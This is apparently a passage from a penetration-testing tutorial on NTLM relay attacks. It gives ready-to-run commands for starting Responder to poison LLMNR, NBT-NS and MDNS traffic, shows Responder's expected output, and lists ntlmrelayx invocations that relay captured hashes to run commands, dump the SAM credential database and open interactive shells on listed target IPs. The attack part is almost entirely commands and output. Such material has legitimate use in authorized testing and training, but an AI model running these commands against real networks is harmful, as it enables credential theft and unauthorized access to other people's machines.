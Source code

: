 ```
LDAP = On
```

Start Responder:
```bash
sudo responder -I tun0 -dwP
```

Expected output:
```
NBT-NS, LLMNR & MDNS Responder 2.3.3.9

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
```

### 3. Run ntlmrelayx
Use Impacket's ntlmrelayx to relay captured hashes:

```bash
# Basic relay to single target
sudo ntlmrelayx.py -tf targets.txt -smb2support

# Relay with command execution
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# Relay and dump SAM database
sudo ntlmrelayx.py -tf targets.txt -smb2support --sam

# Interactive shell mode
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```

Where `targets.txt` contains IP addresses of vulnerable machines:
```
10.0.0.35
192.168.1.10
192.168.1.15
```

